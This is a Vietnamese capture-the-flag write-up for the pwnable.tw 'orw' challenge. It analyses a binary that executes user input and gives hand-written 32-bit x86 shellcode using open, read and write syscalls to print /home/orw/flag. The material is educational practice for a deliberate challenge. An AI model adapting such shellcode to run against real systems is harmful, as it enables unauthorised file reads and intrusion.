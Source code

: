 # pwnable.tw - orw

Read the flag from `/home/orw/flag`.

Only `open` `read` `write` syscall are allowed to use.

`nc chall.pwnable.tw 10001`

# 1) Analysis and find Bug

Đầu tiên ta kiếm tra các secure flag và xem thông tin cơ bản của file.

![checksec.png](images/checksec.png)

Chương trình khá đơn giản, nó yêu cầu một chuỗi đầu vào và cuối hàm main thì gọi tới con trỏ có giá trị là địa chỉ của chuỗi mà ta nhập vào. 

![execute.png](images/execute.png)

# 2) Idea

Ở phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write`, khi chúng ta nhập input là shellcode thì cuối hàm main chương trình sẽ thực hiện các công việc mà shellcode đó yêu cầu. Ở đây ta sẽ dùng `syscall_open` để mở file flag ở `/home/orw/flag` và dùng `syscall_read`, `syscall_write` để đọc và ghi flag ra `terminal`, còn về shellcode 32bit thì ta phải tự viết vì đây không phải là shellcode execute nên không phổ biến để chọn.

# 3) Exploit

Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành mã shellcode. Tôi dùng tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) để làm điều đó.

![shellcode.png](images/shellcode.png)

# 4) Source code and get Flag

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

![flag.png](images/flag.png)

------------------------------------------------------
